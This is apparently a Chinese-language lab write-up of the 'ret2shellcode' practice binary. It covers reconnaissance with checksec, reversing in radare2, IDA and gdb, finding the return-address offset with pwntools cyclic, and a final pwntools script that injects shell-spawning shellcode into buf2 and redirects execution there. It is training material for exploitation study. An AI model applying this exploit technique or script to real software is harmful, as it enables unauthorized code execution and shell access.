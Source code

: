 # ret2shellcode
## 執行結果

會自動印出 " No system for you this time !!!"

接著輸入任意字串

就會印出 "bye bye ~"

結束執行

![image](https://user-images.githubusercontent.com/22366572/148738726-f6408add-6f6b-42b3-9624-7afbfea8d595.png)

## 分析步驟
### Step 1 : 獲得檔案的基本資料

指令: ```file [執行檔名]```

![image](https://user-images.githubusercontent.com/22366572/148719601-e694ff03-15c6-41e8-91e0-63f9528e3fc8.png)

可以看到它是在 GNU/Linux 2.6.24 上編譯的，dynamically linked (動態連接的)，ELF 32-bit LSB executable

### Step 2 : 看開啟了哪些保護機制

指令: ```checksec [執行檔名]```

![image](https://user-images.githubusercontent.com/22366572/148719750-61ca71ad-4ce4-4565-ac46-e310794b4f09.png)

可以看到這個執行檔沒有開啟保護機制

### Step 3 : 做逆向工程

1. 使用 radare2 做逆向工程

main逆向指令:
```
r2 ret2shellcode
aa
afl
s main
VV
```
![image](https://user-images.githubusercontent.com/22366572/148738318-e9c4df11-94c9-4fab-a1fe-bc1cd3628721.png)

main 組語:

![image](https://user-images.githubusercontent.com/22366572/148738426-65ea99e6-0861-4f5b-902c-2fadfeef4aec.png)
![image](https://user-images.githubusercontent.com/22366572/148738519-df170b94-4552-46f6-9b29-a91c08774fe8.png)

從上面可以觀察到輸入的字串會儲存在 **buf2** 裡，或許可以在 buf2 裡塞 shellcode 來執行我們想要的指令 

2. 使用 IDA 做逆向工程

將檔案匯入IDA，即可看到組語

![image](https://user-images.githubusercontent.com/22366572/148740280-53add0f9-f2b3-4294-898b-f327affc5f13.png)


### Step 4 : 確認 buf2 是否有可執行能力

指令:
```
gdb ./ret2shellcode
b main                # 給一個breakpoint
r                     # 執行
```

![image](https://user-images.githubusercontent.com/22366572/148740688-47bd3855-3e0f-434c-acf1-a3a8ac6f7b58.png)

![image](https://user-images.githubusercontent.com/22366572/148741213-6a36cef4-3ccf-4132-8934-0d2d05630b25.png)
![image](https://user-images.githubusercontent.com/22366572/148741276-eb742942-e9d4-4bb6-bba5-bab5ba444445.png)

**接著我們要來找 buf2 的位置**

指令:
```
vmmap
```

![image](https://user-images.githubusercontent.com/22366572/148741876-414772bb-c0dc-4824-b5de-e6b9479acb01.png)

因為從上面用 radare2 或是 IDA 分析可以看到，buf2 的位置在 0804a080，所以從上面那張圖可以知道 buf2 的位置在 /home/woowater/Lab3/PWN20210824/ROP/ret2， **且狀態是可讀可寫的**

[Perm] :
  
  ![image](https://user-images.githubusercontent.com/22366572/148756873-dee75647-ace7-4856-84d6-940b6c9a7054.png)

### Step 5 : 找到 return address 的位置
先用 python 產生 120 個隨機的字元 :
```
from pwn import *
cyclic(120)
```
![image](https://user-images.githubusercontent.com/22366572/148826938-5eaf0afc-0787-4573-8c21-7dd49db2dab8.png)

```
# 120字元
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
```

開啟 gdb ，啟動 ret2shellcode ，將剛剛產生的 120 個隨機的字元填進去，看看會發生甚麼事:

![image](https://user-images.githubusercontent.com/22366572/148828010-4283f211-f9a5-42f7-b748-2154eddeee8d.png)
![image](https://user-images.githubusercontent.com/22366572/148828102-624465bd-2689-44cc-8b28-fbcc2fb4f5cd.png)

由上圖可看到發生了 Segmentation fault，這是因為在EIP指到的地方發生了 Invalid $PC address。當時跑到 return address 的 EIP 會填進 "daab"，我們希望能將 "daab" 那裡填進我們 shellcode 的位置，這樣當 EIP 跑到 return address 時，就會跳到 shellcode 並執行裡面的程式。對照產生的 120 字元可以知道，在跑到 return address 之前需要填進 **112 個字元**
```
# 開啟python找到指定字元的方法
from pwn import *
cyclic(120)
cyclic_find(b'daab') # find 'daab' location
```

### Step 6 : 撰寫 shellcode，丟進執行程式裡

**Shellcode :**
```
# exp-ret2shellcode.py
from pwn import *
sh = process("./ret2shellcode")
payload = asm(shellcraft.sh())
payload = payload.ljust(112,"a")
buf2_addr = 0x804a080
sh.sendline(payload + p32(buf2_addr))
sh.interactive()
```

